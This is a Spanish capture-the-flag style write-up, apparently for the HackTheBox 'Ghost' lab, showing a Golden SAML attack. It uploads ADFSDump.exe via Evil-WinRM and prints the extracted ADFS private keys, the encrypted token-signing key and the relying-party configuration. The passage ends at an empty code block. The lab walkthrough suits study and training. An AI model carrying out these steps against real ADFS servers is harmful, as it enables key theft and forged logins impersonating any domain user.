Para realizar el **Golden SAML Attack**, debemos disponer del binario **ADFDump.exe**, una herramienta muy útil en este tipo de explotación. **ADFDump.exe** nos permite volcar los datos necesarios desde un **Active Directory Federation Services (ADFS)** y extraer el certificado privado que se utiliza para firmar los tokens SAML. Este certificado es crucial, ya que es la clave para crear **tokens SAML falsificados**.

Una vez obtenemos este certificado, podemos generar un token SAML válido para cualquier usuario dentro del dominio, lo que nos permite **suplantar identidades** y acceder a servicios federados como si fuéramos usuarios legítimos. Lo mejor de este ataque es que, al no necesitar intervención directa de los usuarios afectados, es muy difícil de detectar.

El proceso general sería:

1. **Obtención del certificado**: Usamos **ADFDump.exe** para extraer el certificado privado de ADFS, el cual se encuentra en el servidor de ADFS.
2. **Creación del Golden SAML Token**: Con el certificado, generamos el token SAML falso que contiene los datos de cualquier usuario, como si fuera un token legítimo.
3. **Acceso a los servicios federados**: Utilizamos el token para acceder a aplicaciones federadas que confían en el sistema de ADFS para autenticación.

```bash
❯ ls -l LateralMovement
❯ git clone https://github.com/jakobfriedl/precompiled-binaries; cd precompiled-binaries/LateralMovement
Clonando en 'precompiled-binaries'...
remote: Enumerating objects: 242, done.
remote: Counting objects: 100% (41/41), done.
remote: Compressing objects: 100% (38/38), done.
remote: Total 242 (delta 18), reused 11 (delta 3), pack-reused 201 (from 1)
Recibiendo objetos: 100% (242/242), 8.53 MiB | 14.65 MiB/s, listo.
Resolviendo deltas: 100% (110/110), listo.
❯ ls -l
drwxrwxr-x kali kali 4.0 KB Fri Feb  7 21:49:08 2025  AzureAD
drwxrwxr-x kali kali 4.0 KB Fri Feb  7 21:49:08 2025  CertificateAbuse
drwxrwxr-x kali kali 4.0 KB Fri Feb  7 21:49:08 2025  GPOAbuse
.rw-rw-r-- kali kali  30 KB Fri Feb  7 21:49:08 2025  ADFSDump.exe
.rw-rw-r-- kali kali 4.5 KB Fri Feb  7 21:49:08 2025  ADModule.dll
.rw-rw-r-- kali kali 487 KB Fri Feb  7 21:49:08 2025  Rubeus.exe
.rw-rw-r-- kali kali  50 KB Fri Feb  7 21:49:08 2025  RunasCs.exe
.rw-rw-r-- kali kali  50 KB Fri Feb  7 21:49:08 2025  Sharpmad.exe
.rw-rw-r-- kali kali  40 KB Fri Feb  7 21:49:08 2025  SharpMove.exe
.rw-rw-r-- kali kali 323 KB Fri Feb  7 21:49:08 2025  SharpRDP.exe
.rw-rw-r-- kali kali 1.1 MB Fri Feb  7 21:49:08 2025  SharpSCCM.exe
.rw-rw-r-- kali kali  44 KB Fri Feb  7 21:49:08 2025  SharpSQL.exe
.rw-rw-r-- kali kali 222 KB Fri Feb  7 21:49:08 2025  SimpleBackdoorAdmin.dll
.rw-rw-r-- kali kali 290 KB Fri Feb  7 21:49:08 2025  SimpleBackdoorAdmin.exe
.rw-rw-r-- kali kali 154 KB Fri Feb  7 21:49:08 2025  SpoolSample.exe
.rw-rw-r-- kali kali  44 KB Fri Feb  7 21:49:08 2025  Whisker.exe
```

Subiremos el `ADFSDump.exe` al DC y verificaremos que se encuentra correctamente en el equipo.

```powershell
*Evil-WinRM* PS C:\ProgramData> upload ADFSDump.exe
                                        
Info: Uploading /home/kali/Desktop/HackTheBox/Windows/AD/Ghost/content/ADFSDump.exe to C:\ProgramData\ADFSDump.exe
                                        
Data: 305048 bytes of 305048 bytes copied
                                        
Info: Upload successful!

*Evil-WinRM* PS C:\ProgramData> ls


    Directory: C:\ProgramData


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-         7/22/2024   9:55 AM                Microsoft
d-----         7/22/2024   9:55 AM                Package Cache
d-----         1/30/2024   7:09 PM                Packages
d-----         1/30/2024   7:19 PM                regid.1991-06.com.microsoft
d-----          5/8/2021   1:20 AM                SoftwareDistribution
d-----          5/8/2021   2:36 AM                ssh
d-----         1/30/2024   9:24 AM                USOPrivate
d-----          5/8/2021   1:20 AM                USOShared
d-----         1/30/2024   9:21 AM                VMware
-a----          2/7/2025  12:38 PM         228787 ADFSDump.exe
```

Al ejecutar el binario de `ADFSDump.exe` en el DC podemos observar los siguientes resultados.

* **Extracción de la clave privada desde el almacenamiento de Active Directory**:
  * Dominio: _ghost.htb_
  * Clave privada extraída:
    * FA-DB-3A-06-DD-CD-40-57-DD-41-7D-81-07-A0-F4-B3-14-FA-2B-6B-70-BB-BB-F5-28-A7-21-29-61-CB-21-C7
    * 8D-AC-A4-90-70-2B-3F-D6-08-D5-BC-35-A9-84-87-56-D2-FA-3B-7B-74-13-A3-C6-2C-58-A6-F4-58-FB-9D-A1
* **Lectura de la clave de firma encriptada desde la base de datos**:\
  La clave de firma encriptada fue extraída en base64 y tiene el siguiente formato:

```bash
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
```

* **Lectura de información de confianza de usuario autenticado desde la base de datos**\
  Verificamos de la información correspondiente al SAML el cual el `EndPoint` se encuentra en [https://core.ghost.htb:8443/adfs/saml/postResponse](https://core.ghost.htb:8443/adfs/saml/postResponse)

<pre class="language-powershell"><code class="lang-powershell">*Evil-WinRM* PS C:\ProgramData> .\ADFSDump.exe
	   ___    ____  ___________ ____
   /   |  / __ \/ ____/ ___// __ \__  ______ ___  ____
  / /| | / / / / /_   \__ \/ / / / / / / __ `__ \/ __ \
 / ___ |/ /_/ / __/  ___/ / /_/ / /_/ / / / / / / /_/ /
/_/  |_/_____/_/    /____/_____/\__,_/_/ /_/ /_/ .___/
                                              /_/
Created by @doughsec


## Extracting Private Key from Active Directory Store
[-] Domain is ghost.htb
[-] Private Key: FA-DB-3A-06-DD-CD-40-57-DD-41-7D-81-07-A0-F4-B3-14-FA-2B-6B-70-BB-BB-F5-28-A7-21-29-61-CB-21-C7


[-] Private Key: 8D-AC-A4-90-70-2B-3F-D6-08-D5-BC-35-A9-84-87-56-D2-FA-3B-7B-74-13-A3-C6-2C-58-A6-F4-58-FB-9D-A1


## Reading Encrypted Signing Key from Database
[-] Encrypted Token Signing Key Begin
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
[-] Encrypted Token Signing Key End

[-] Certificate value: 0818F900456D4642F29C6C88D26A59E5A7749EBC
[-] Store location value: CurrentUser
[-] Store name value: My

<strong>## Reading The Issuer Identifier
</strong>[-] Issuer Identifier: http://federation.ghost.htb/adfs/services/trust
[-] Detected AD FS 2019
[-] Uncharted territory! This might not work...
## Reading Relying Party Trust Information from Database
[-]
core.ghost.htb
 ==================
    Enabled: True
    Sign-In Protocol: SAML 2.0
    Sign-In Endpoint: https://core.ghost.htb:8443/adfs/saml/postResponse
    Signature Algorithm: http://www.w3.org/2001/04/xmldsig-more#rsa-sha256
    SamlResponseSignatureType: 1;
    Identifier: https://core.ghost.htb:8443
    Access Policy: &#x3C;PolicyMetadata xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2012/04/ADFS">
  &#x3C;RequireFreshAuthentication>false&#x3C;/RequireFreshAuthentication>
  &#x3C;IssuanceAuthorizationRules>
    &#x3C;Rule>
      &#x3C;Conditions>
        &#x3C;Condition i:type="AlwaysCondition">
          &#x3C;Operator>IsPresent&#x3C;/Operator>
        &#x3C;/Condition>
      &#x3C;/Conditions>
    &#x3C;/Rule>
  &#x3C;/IssuanceAuthorizationRules>
&#x3C;/PolicyMetadata>


    Access Policy Parameter:

    Issuance Rules: @RuleTemplate = "LdapClaims"
@RuleName = "LdapClaims"
c:[Type == "http://schemas.microsoft.com/ws/2008/06/identity/claims/windowsaccountname", Issuer == "AD AUTHORITY"]
 => issue(store = "Active Directory", types = ("http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn", "http://schemas.xmlsoap.org/claims/CommonName"), query = ";userPrincipalName,sAMAccountName;{0}", param = c.Value);
</code></pre>

Convertiremos el `PFX` y la `Private Key` en formato binario a través de los siguientes comandos.

```bash
